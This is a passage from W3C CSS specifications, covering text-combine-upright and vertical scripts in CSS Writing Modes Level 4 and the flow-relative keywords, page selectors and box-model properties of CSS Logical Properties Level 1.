> **Note:** Using containment disables this special handling of the HTML `body` element. See the [CSS Containment 1 § 2 Strong Containment: the contain property](#css-contain-2:contain-property) for details.

> **Note:** Propagation is done on used values rather than computed values to avoid disrupting other aspects of style computation, such as inheritance, [logical property mapping logic](#css-logical-1:box), or [length value computation](#css-values-4:lengths).

#### 8.1.  Propagation to the Initial Containing Block {#css-writing-modes-4:icb}

The principal writing mode is propagated to the initial containing block and to the viewport, thereby affecting the layout of the root element and the scrolling direction of the viewport.

> **Issue:** Does it also propagate to @page boxes?

#### 8.2.  Page Flow: the page progression direction {#css-writing-modes-4:page-direction}

In paged media CSS classifies all pages as either left or right pages. The page progression direction (see [CSS3PAGE]), which determines whether the left or right page in a spread is first in the flow and whether the first page is by default a left or right page, depends on the principal writing mode as follows:

| principal writing mode | page progression |
| --- | --- |
| `horizontal-tb` and `ltr` | left-to-right |
| `horizontal-tb` and `rtl` | right-to-left |
| `vertical-rl` or `sideways-rl` | right-to-left |
| `vertical-lr` or `sideways-lr` | left-to-right |

> **Note:** Unless otherwise overridden, the first page of a document begins on the second half of a spread, e.g. on the right page in a left-to-right page progression.

### 9.  Glyph Composition {#css-writing-modes-4:text-combine}

#### 9.1.  Horizontal-in-Vertical Composition: the `text-combine-upright` property {#css-writing-modes-4:text-combine-upright}

| Field | Value |
| --- | --- |
| Name: | **text-combine-upright** |
| [Value:](#css-values-4:value-defs) | none \| all \| [ digits <integer [2,4]>? ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | inline boxes and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword, plus integer if `digits` |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

This property specifies the combination of multiple typographic character units into the space of a single typographic character unit. If the combined text is wider than 1em, the UA must fit the contents within 1em, see below. The resulting composition is treated as a single upright glyph for the purposes of layout and decoration. This property only has an effect in vertical writing modes. Values have the following meanings:

****none****

: No special processing.

****all****

: Attempt to typeset horizontally all consecutive typographic character units within the box and text run such that they take up the space of a single typographic character unit within the vertical line box.

****digits `<integer [2,4]>`?****

: Attempt to typeset horizontally each maximal sequence of consecutive ASCII digits (U+0030–U+0039) that has as many or fewer digits than the specified integer such that it takes up the space of a single typographic character unit within the vertical line box. If the integer is omitted, it computes to 2. Integers outside the range 2-4 are invalid.

> **Example:** In East Asian documents, the `text-combine-upright` effect is often used to display Latin-based strings such as components of a date or letters of an initialism, always in a horizontal writing mode regardless of the writing mode of the line:
>
> 
>
> Example of horizontal-in-vertical *tate-chu-yoko*
>
> The figure is the result of the rules
>
> ```
> date { text-combine-upright: digits 2; }
> ```
>
> and the following markup:
>
> ```
> <date>平成20年4月16日に</date>
> ```
>
> In Japanese, this effect is known as *tate-chu-yoko*.

> **Example:** The following example shows that applying `text-combine-upright: digits 2` to an entire document, rather than to a segment with a known type of numeric content, can have unintended consequences:
>
> ```
> <p>あれは10,000円ですよ！</p>
> ```
>
> 
>
> Example of mis-applied *tate-chu-yoko*

##### 9.1.1.  Text Run Rules {#css-writing-modes-4:text-combine-runs}

To avoid complexity in the rendering and layout, `text-combine-upright` can only combine plain text: consecutive typographic character units that are not interrupted by a box boundary.

However, because the property inherits, the UA must ensure that the contents of the box effecting the combination are not part of an otherwise-combinable sequence that happens to begin or end outside the box; if so, then the text is laid out normally, as if `text-combine-upright` were `none`. To avoid combining only part of a sequence: if the boundary of a potentially-combinable run is due only to one or more inline box boundaries, the UA must inspect any characters that appear immediately before and immediately after the run, and if these characters would, without the intervening box, form a sequence that would (if it were not too long) combine, then the candidate run does not combine.

> **Note:** The above paragraph is at-risk. Comments from implementors are welcome.

> **Example:** For example, given the rule
>
> ```
> tcy { text-combine-upright: digits 4; }
> ```
>
> if the following markup were given:
>
> ```
> <tcy>12<span>34</span></tcy>
> ```
>
> no text would combine: the 12 and 34 both share an ancestor with the same `text-combine-upright` value, and therefore are considered part of a sequence of four combinable digits interrupted by a box boundary. However in these cases:
>
> ```
> 12<tcy><span>34</span></tcy>
> 12<tcy><span></span>34</tcy>
> 12<tcy>34<span></span></tcy>
> ```
>
> The 34 would combine, because the 12 immediately previous does not share with the 34 an ancestor with a common `text-combine-upright`, and therefore the 34 is considered to be the entirety of a sequence of two combinable digits.
>
> If we used the rule
>
> ```
> tcy { text-combine-upright: all; }
> ```
>
> the same results would occur: the first case not combining because 1234 forms a sequence of four combinable characters interrupted by a box boundary, and the second combining 34 because it forms the entirety of a sequence of two combinable characters.

> **Note:** that the value of `text-combine-upright` (`all` or `digits`) only affects which types of typographic character unit can be combined and what is the maximum length of a combinable sequence. It does not otherwise change behavior.

##### 9.1.2.  Layout Rules {#css-writing-modes-4:text-combine-layout}

When combining text as for `text-combine-upright: all`, the glyphs of the combined text are bidi-isolated and composed horizontally (ignoring `letter-spacing` and any forced line breaks, but using the specified font settings), similar to the contents of an `inline-block` box with a horizontal writing mode and a `line-height` of `1em`. Any document white space included at the start/end of the combined text *is* [processed](#css-text-4:white-space-processing) [CSS-TEXT-3] as at the start/end of such an inline block. The effective size of the composition is assumed to be 1em square; anything outside the square is not measured for layout purposes. The UA should center the glyphs horizontally and vertically within the measured 1em square.

The baseline of the resulting composition must be chosen such that the square is centered between the text-over and text-under baselines of its parent inline box prior to any baseline alignment shift (`vertical-align`). For bidi reordering, the composition is treated the same as a typographic character unit with `text-orientation: upright`. For line breaking before and after the composition, it is treated as a regular inline with its actual contents. For other text layout purposes, e.g. emphasis marks, text-decoration, spacing, etc. the resulting composition is treated as a single glyph representing the Object Replacement Character U+FFFC.

##### 9.1.3.  Compression Rules {#css-writing-modes-4:text-combine-compression}

The UA must ensure that the combined advance width of the composition fits within 1em by compressing the combined text if necessary. (This does not necessarily mean that the glyphs will fit within 1em, as some glyphs are designed to draw outside their geometric boundaries.) OpenType implementations *must* use width-specific variants (OpenType features `hwid`/`twid`/`qwid`; other glyph-width features such as `fwid` or `pwid` are not included) to compress text in cases where those variants are available for all typographic character units in the composition. Otherwise, the UA may use any means to compress the text, including substituting half-width, third-width, and/or quarter-width glyphs provided by the font, using other font features designed to compress text horizontally, scaling the text geometrically, or any combination thereof.

> **Example:** For example, a simple OpenType-based implementation might compress the text as follows:
>
> 1. Enable 1/*n*-width glyphs for combined text of *n* typographic character units (i.e. use OpenType `hwid` for 2 typographic character units, `twid` for 3 typographic character units, etc.) if the number of typographic character units > 1. Note that the number of typographic character units ≠ number of Unicode codepoints!
> 2. If the result is wider than 1em, horizontally scale the result to 1em.
>
> A different implementation that utilizes OpenType layout features might compose the text first with normal glyphs to see if that fits, then substitute in half-width or third-width forms as available and necessary, possibly adjusting its approach or combining it with scaling operations depending on the available glyph substitutions.

In some fonts, the ideographic glyphs are given a compressed design such that they are 1em wide but shorter than 1em tall. To accommodate such fonts, the UA may vertically scale the composition to match the advance height of 水 U+6C34 as rendered according to the specified font settings. In such a case the resulting composition assumes the advance height of 水 U+6C34 rather than 1em.

###### 9.1.3.1.  Full-width Characters {#css-writing-modes-4:text-combine-fullwidth}

In order to preserve typographic color when compressing the text to 1em, when the combined text consists of more than one typographic character unit, then any full-width typographic character units should first be converted to their non-full-width equivalents by reversing the algorithm defined for `text-transform: full-width` in [CSS-TEXT-3] before applying other compression techniques.

> **Example:** For example, an author might apply both `text-transform` and `text-combine-upright` to a date set in vertical text.
>
> ```
> date { text-combine-upright: digits 2; text-transform: full-width; }
> ```
>
> Suppose this style rule is applied to a date such as.
>
> ```
> <date>2010年2月23日</date>
> ```
>
> The "2010" is too long to be combined (4 digits), but the "2" and "23" will be affected. Since "23" is more than one typographic character unit, it will not be affected by `text-transform: full-width`. However since the "2" is only one typographic character unit, it will be transformed to a fullwidth "２". Since the "2010" was not combined, its digits, too, will be transformed to fullwidth "２０１０"; and being fullwidth, they will be typeset upright, giving the following result:
>
> ```
> ２
> ０
> １
> ０
> 年
> ２
> 月
> 23
> 日
> ```

> **Note:** Properties that affect glyph selection, such as the `font-variant` and `font-feature-settings` properties defined in [CSS3-FONTS], can potentially affect the selection of variants for characters included in combined text runs. Authors are advised to use these properties with care when `text-combine-upright` is also used.

### Appendix A: Vertical Scripts in Unicode {#css-writing-modes-4:script-orientations}

*This section is informative.*

This appendix lists the vertical-only and bi-orientational scripts in Unicode 6.0 [UNICODE] and their transformation from horizontal to vertical orientation. Any script not listed explicitly is assumed to be horizontal-only. The script classification of Unicode characters is given by [UAX24].

| Code | Name | Transform (Clockwise) | Vertical Intrinsic Direction |
| --- | --- | --- | --- |
| Bopo | Bopomofo | 0° | ttb |
| Egyp | Egyptian Hieroglyphs | 0° | ttb |
| Hira | Hiragana | 0° | ttb |
| Kana | Katakana | 0° | ttb |
| Hani | Han | 0° | ttb |
| Hang | Hangul | 0° | ttb |
| Merc | Meroitic Cursive | 0° | ttb |
| Mero | Meroitic Hieroglyphs | 0° | ttb |
| Mong | Mongolian | 90° | ttb |
| Ogam | Ogham | -90° | btt |
| Orkh | Old Turkic | -90° | ttb |
| Phag | Phags Pa | 90° | ttb |
| Yiii | Yi | 0° | ttb |

**Exceptions:** For the purposes of this specification, all fullwidth (F) and wide (W) characters are treated as belonging to a vertical script, and halfwidth characters (H) are treated as belonging to a horizontal script. [UAX11]

> **Note:** that for vertical-only characters (such as Mongolian and Phags Pa letters), the glyphs in the Unicode code charts are shown in their vertical orientation. In horizontal text, they are typeset in a 90° counter-clockwise rotation from this orientation.

> **Note:** Due to limitations in the current feature set of Unicode Technical Report 50 and CSS Writing Modes, vertical `mixed` typesetting cannot automatically handle either Ogham or Old Turkic. For these scripts, `sideways-lr` can be used to typeset passages.

---

## CSS Logical Properties and Values Module Level 1 {#css-logical-1}

- **Shortname:** `css-logical-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-logical-1/](https://drafts.csswg.org/css-logical-1/)
- **Published TR:** [https://www.w3.org/TR/css-logical-1/](https://www.w3.org/TR/css-logical-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2025-12-12

### 1.  Introduction {#css-logical-1:intro}

> **Note:** See [css-writing-modes-4] for a proper introduction to writing modes; this module assumes familiarity with its terminology.

Because different writing systems are written in different directions, a variety of writing modes exist: left to right, top to bottom; right to left, top to bottom; bottom to top, right to left; etc. logical concepts like the “start” of a page or line map differently to physical concepts like the “top” of a line or “left edge” of a paragraph. Some aspects of a layout are actually relative to the writing directions, and thus will vary when the page is translated to a different system; others are inherently relative to the page’s physical orientation.

> **Example:** For example, lists, headings, and paragraphs are typically left-aligned in English; but actually they are start-aligned, because in Arabic the same constructs are right-aligned, and a multilingual document will need to accommodate both writing systems accordingly.
>
> The following code exemplifies how using logical syntax can help you write code that works across different writing systems:
>
> 
>
> Rendering of the below code in a compatible browser
>
> ```
> <blockquote dir="auto">Quotation in English</blockquote>
> <blockquote dir="auto">اقتباس في العربية</blockquote>
> ```
>
> ```
> blockquote {
>     text-align: start; /* left in latin, right in arabic */
>     margin-inline-start: 0px; /* margin-left in latin, margin-right in arabic */
>     border-inline-start: 5px solid gray; /* border-left in latin, border-right in arabic */
>     padding-inline-start: 5px; /* padding-left in latin, padding-right in arabic */
> }
> ```
>
> Documents might need both logical and physical properties. For instance the drop shadows on buttons on a page must remain consistent throughout, so their offset will be chosen based on visual considerations and physical directions, and not vary by writing system.

Since CSS was originally designed with only physical coordinates in its controls, this module introduces text-flow–relative equivalents so that declarations in a CSS style sheet can be expressed in flow-relative terms. It defines the mapping and cascading of equivalent properties, some new properties and values equivalent to those in CSS2.1, and the principles used to derive their syntaxes. Future CSS specifications are expected to incorporate both sets of coordinates in their property and value definitions, so this module will not track the introduction of flow-relative variants of newer CSS features.

[CSS Writing Modes](#css-writing-modes-4)’ [Abstract Box Terminology](#css-writing-modes-4:abstract-box) section defines how to map between flow-relative and physical terms. This mapping, which depends on the used values of `writing-mode`, `direction`, and `text-orientation`, controls the interpretation of flow-relative keywords and properties.



Correspondence of physical and flow-relative terms in typical English text layout



Correspondence of physical and flow-relative terms in vertical Chinese text layout

> **Note:** Due to its interaction with `text-orientation: upright`, the used `direction` depends on the computed values of `writing-mode` and `text-orientation`.

> **Issue:** **Things That Are Unstable** Since implementation of parts of this module is effectively required for shipping an implementation of [CSS Writing Modes](#css-writing-modes-4) on the Web (in order to correctly implement the default HTML styles), the CSSWG resolved that the requisite features in [§ 2 Flow-Relative Values: block-start, block-end, inline-start, inline-end](#css-logical-1:directional-keywords) and [§ 4 Flow-Relative Box Model Properties](#css-logical-1:box) are approved for shipping. (See [FPWD announcement](https://lists.w3.org/Archives/Public/www-style/2017Dec/0043.html) for additional background.)
>
> However, there are a few significant open issues:
>
> - The `logical` keyword on shorthands, because the name of the keyword may change or it may be replaced by some other syntactic marker. (This feature will be deferred from this level for further development if there is no clearly satisfactory mechanism proposed, see [Issue 1282](https://github.com/w3c/csswg-drafts/issues/1282).)
> - Whether flow-relative longhands inherit from their namesake on the parent, or are mapped to a physical property and inherit from that property. (See [Issue 3029](https://github.com/w3c/csswg-drafts/issues/3029).)
> - Whether shorthands like `margin` expand to both sets of longhands, or only the ones that were set. (See [Issue 3030](https://github.com/w3c/csswg-drafts/issues/3030).)
>
> Comments, suggestions, and use cases are welcome on these issues. Please file them in GitHub, tweet them to @csswg, or send them to www-style@w3.org.

#### 1.1.  Value Definitions {#css-logical-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Flow-Relative Values: `block-start`, `block-end`, `inline-start`, `inline-end` {#css-logical-1:directional-keywords}

Many CSS properties have historically accepted **directional keyword** values that are physical (`top`, `bottom`, `left`, `right`). This specification introduces directional keyword values that are flow-relative: `block-start`, `block-end`, `inline-start`, `inline-end`.

A property’s effect can be either 1-dimensional or 2-dimensional. When contextually constrained to one dimension, the flow-relative keywords are abbreviated (to `start` and `end`).

CSS Level 2 properties are here redefined to also accept flow-relative directional keywords. Such values can be used in place of the corresponding physical values. For properties that take multiple keywords, combinations of flow-relative and physical values are not allowed (unless otherwise specified in a future specification).

> **Note:** Newer CSS specifications are expected in most cases to define flow-relative or line-relative values instead of or in addition to any physical ones. In general, the mapping of such relative values are expected to use the writing mode of the containing block when affecting the box itself, and that of the box itself when affecting its contents. Regardless, which writing modes is used for the mapping needs to be explicitly defined.

#### 2.1.  Logical Values for the `caption-side` Property {#css-logical-1:caption-side}

| Field | Value |
| --- | --- |
| Name: | `caption-side` |
| [New values:](#css-values-4:value-defs) | inline-start \| inline-end |
| [Computed value:](#css-cascade-6:computed) | specified keyword |

These two values are added only for implementations that support `left` and `right` values for `caption-side`. The `left` and `right` values themselves are defined to be line-relative.

The existing `top` and `bottom` values are idiosyncratically redefined as assigning to the block-start and block-end sides of the table, respectively.

The mapping on this property uses the writing mode of the caption’s containing block (that is, the table wrapper box).

#### 2.2.  Flow-Relative Values for the `float` and `clear` Properties {#css-logical-1:float-clear}

| Field | Value |
| --- | --- |
| Name: | `float`, `clear` |
| [New values:](#css-values-4:value-defs) | inline-start \| inline-end |
| [Computed value:](#css-cascade-6:computed) | specified keyword |

The mapping on these properties uses the writing mode of the element’s containing block.

> **Note:** These properties are 1-dimensional in CSS2, but are planned to be expanded to two dimensions, and therefore are given unabbreviated flow-relative keywords.

#### 2.3.  Flow-Relative Values for the `text-align` Property {#css-logical-1:text-align}

| Field | Value |
| --- | --- |
| Name: | `text-align` |
| [New values:](#css-values-4:value-defs) | start \| end |
| [Computed value:](#css-cascade-6:computed) | specified keyword |

These values are normatively defined in [css-text-3].

### 3.  Flow-Relative Page Classifications {#css-logical-1:page}

In CSS, all pages are classified by user agents as either left pages or right pages. [CSS2] Which page is first in a spread, however, depends on whether the page progression is left-to-right or right-to-left.

To allow control of page breaking to the page that is on the earlier or later side of a spread, rather than to the left or right side of a spread, this module introduces the following additional keywords for the `page-break-after` and `page-break-before` properties [CSS2]:

****recto****

: Equivalent to `right` in left-to-right page progressions and `left` in right-to-left page progressions.

****verso****

: Equivalent to `left` in left-to-right page progressions and `right` in right-to-left page progressions.

These values are computed as specified and are further defined in [css-break-3].

Although authors typically place page numbers using physical placements, the contents of headers often follows conventions depending on which page in the spread is earlier. Therefore the following flow-relative [page selectors](#css2:page-selectors) are also added to support flow-relative page selection:

****:recto****

: Equivalent to ':right' in left-to-right page progressions and ':left' in right-to-left page progressions.

****:verso****

: Equivalent to ':left' in left-to-right page progressions and ':right' in right-to-left page progressions.

The flow-relative page selectors have specificity equal to the ':left' and ':right' page selectors.

### 4.  Flow-Relative Box Model Properties {#css-logical-1:box}

For many formatting effects, the axis or direction affected is encoded in the property name rather than in its value. The type of directional or axis mapping (flow-relative or physical) of each such property is called its **mapping logic**. Historically, all properties have been encoded in physical terms; this specification introduces new CSS properties that are flow-relative equivalents of CSS2’s physical box model properties.

> **Note:** Newer CSS specifications are expected in most cases to define flow-relative or line-relative properties instead of or in addition to any physical ones.

Each set of parallel flow-relative properties and physical properties (ignoring shorthand properties) related by setting equivalent styles on the various sides or dimensions of a box, forms a **logical property group**. For example, the `padding-*` properties form a single logical property group, the `margin-*` properties form a separate logical property group, the `border-*-style` properties form another logical property group, etc. (Each longhand property can belong to at most one logical property group.)

Within each logical property group, corresponding flow-relative and physical properties are paired using the element’s own computed writing mode. Although the specified value of each property remains distinct, paired properties share a computed value. This shared value is determined by cascading the declarations of both properties together as one; in other words, the computed value of both properties in the pair is derived from the specified value of the property declared with higher priority in the CSS cascade. [CSS-CASCADE-3]

> **Note:** that this requires implementations to maintain relative order of declarations within a CSS declaration block, which was not previously required for CSS cascading. It also requires that `writing-mode`, `direction`, and `text-orientation` be computed as a prerequisite for cascading together the flow-relative and physical declarations of a logical property group to find their computed values.

> **Example:** For example, given the following rule:
>
> ```css
> p {
>   margin-inline-start: 1px;
>   margin-left: 2px;
>   margin-inline-end: 3px;
> }
> ```
>
> In a paragraph with computed `writing-mode` being `horizontal-tb` and computed `direction` being `ltr`, the computed value of `margin-left` is `2px`, since for that `writing-mode` and `direction`, `margin-inline-start` and `margin-left` share a computed value, and the declaration of `margin-left` is after the declaration of `margin-inline-start`. However, if the computed `direction` were instead `rtl`, the computed value of `margin-left` is `3px`, since `margin-inline-end` and `margin-left` share a computed value, and the declaration of `margin-inline-end` is after the declaration of `margin-left`.

[CSSOM] APIs that return computed values (such as `getComputedStyle()`) must return the same value for each individual property in such a pair.

> **Note:** Depending on the element’s own writing mode for mapping every flow-relative property to its physical equivalent simplifies the cascading calculations and gives a straightforward model for authors to reason about. However, it is problematic in many cases, see for example [this discussion](https://www.w3.org/mid/20161108202634.GA7235@mail.internode.on.net). Authors may need to use nested elements to get the correct mapping behavior when changing an element’s writing mode from its parent.

Inheritance of each property is from its corresponding property on the parent. For example, although the inline-start margin of an`rtl` box is its right margin, `margin-inline-start` on this box will inherit the `margin-inline-start` of an `ltr` parent even though that happens to be the parent’s *left* margin.

Unless otherwise specified, shorthand properties that encompass both logical and physical longhands (such as the `all` shorthand) set their physical longhands last. For example, `all: inherit` will set all of the `margin` properties to `inherit`, but since the physical longhands are set last, the child’s margins will inherit from their physical counterparts in the parent.

#### 4.1.  Logical Height and Logical Width: the `block-size`/`inline-size`, `min-block-size`/`min-inline-size`, and `max-block-size`/`max-inline-size` properties {#css-logical-1:dimension-properties}

| Field | Value |
| --- | --- |
| Name: | **block-size**, **inline-size** |
| [Value:](#css-values-4:value-defs) | `<'width'>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | Same as `height` and `width` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | As for the corresponding physical property |
| [Computed value:](#css-cascade-6:computed) | Same as `height`, `width` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `size` |

These properties correspond to the `height` and `width` properties. The mapping depends on the element’s `writing-mode`.

| Field | Value |
| --- | --- |
| Name: | **min-block-size**, **min-inline-size** |
| [Value:](#css-values-4:value-defs) | `<'min-width'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | same as `height` and `width` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | As for the corresponding physical property |
| [Computed value:](#css-cascade-6:computed) | Same as `min-height`, `min-width` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `min-size` |

These properties correspond to the `min-height` and `min-width` properties. The mapping depends on the element’s `writing-mode`.

| Field | Value |
| --- | --- |
| Name: | **max-block-size**, **max-inline-size** |
| [Value:](#css-values-4:value-defs) | `<'max-width'>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | same as `height` and `width` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | As for the corresponding physical property |
| [Computed value:](#css-cascade-6:computed) | Same as `max-height`, `max-width` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `max-size` |

These properties correspond to the `max-height` and `max-width` properties. The mapping depends on the element’s `writing-mode`.

#### 4.2.  Flow-Relative Margins: the `margin-block-start`, `margin-block-end`, `margin-inline-start`, `margin-inline-end` properties and `margin-block` and `margin-inline` shorthands {#css-logical-1:margin-properties}

| Field | Value |
| --- | --- |
| Name: | **margin-block-start**, **margin-block-end**, **margin-inline-start**, **margin-inline-end** |
| [Value:](#css-values-4:value-defs) | `<'margin-top'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | Same as `margin-top` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | As for the corresponding physical property |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding `margin-*` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `margin` |

These properties correspond to the `margin-top`, `margin-bottom`, `margin-left`, and `margin-right` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **margin-block**, **margin-inline** |
| [Value:](#css-values-4:value-defs) | `<'margin-top'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `margin-block-start` & `margin-block-end` and `margin-inline-start` & `margin-inline-end`, respectively. The first value represents the start edge style, and the second value represents the end edge style. If only one value is given, it applies to both the start and end edges.

#### 4.3.  Flow-Relative Offsets: the `inset-block-start`, `inset-block-end`, `inset-inline-start`, `inset-inline-end` properties and `inset-block`, `inset-inline`, and `inset` shorthands {#css-logical-1:position-properties}

The `top`, `left`, `bottom`, `right` physical properties, their `inset-block-start`, `inset-block-end`, `inset-inline-start`, `inset-inline-end` flow-relative correspondents, and the `inset-block`, `inset-inline`, and `inset` shorthands, are collectively known as the **inset properties**.

| Field | Value |
| --- | --- |
| Name: | **inset-block-start**, **inset-block-end**, **inset-inline-start**, **inset-inline-end** |
| [Value:](#css-values-4:value-defs) | `<'top'>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | As for the corresponding physical property |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding `top`/`right`/`bottom`/`left` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `inset` |

These properties correspond to the `top`, `bottom`, `left`, and `right` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **inset-block**, **inset-inline** |
| [Value:](#css-values-4:value-defs) | `<'top'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `inset-block-start` & `inset-block-end` and `inset-inline-start` & `inset-inline-end`, respectively. The first value represents the start edge style, and the second value represents the end edge style. If only one value is given, it applies to both the start and end edges.

| Field | Value |
| --- | --- |
| Name: | **inset** |
| [Value:](#css-values-4:value-defs) | `<'top'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets the `top`, `right`, `bottom`, and `left` properties. Values are assigned to its sub-properties as for `margin`.

#### 4.4.  Flow-Relative Padding: the `padding-block-start`, `padding-block-end`, `padding-inline-start`, `padding-inline-end` properties and `padding-block` and `padding-inline` shorthands {#css-logical-1:padding-properties}

| Field | Value |
| --- | --- |
| Name: | **padding-block-start**, **padding-block-end**, **padding-inline-start**, **padding-inline-end** |
| [Value:](#css-values-4:value-defs) | `<'padding-top'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | Same as `padding-top` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | As for the corresponding physical property |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding `padding-*` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `padding` |

These properties correspond to the `padding-top`, `padding-bottom`, `padding-left`, and `padding-right` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **padding-block**, **padding-inline** |
| [Value:](#css-values-4:value-defs) | `<'padding-top'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `padding-block-start` & `padding-block-end` and `padding-inline-start` & `padding-inline-end`, respectively. The first value represents the start edge style, and the second value represents the end edge style. If only one value is given, it applies to both the start and end edges.

#### 4.5.  Flow-Relative Borders {#css-logical-1:border-properties}

##### 4.5.1.  Flow-Relative Border Widths: the `border-block-start-width`, `border-block-end-width`, `border-inline-start-width`, `border-inline-end-width` properties and `border-block-width` and `border-inline-width` shorthands {#css-logical-1:border-width}

| Field | Value |
| --- | --- |
| Name: | **border-block-start-width**, **border-block-end-width**, **border-inline-start-width**, **border-inline-end-width** |
| [Value:](#css-values-4:value-defs) | `<'border-top-width'>` |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | Same as `border-top-width` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding `border-*-width` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-width` |

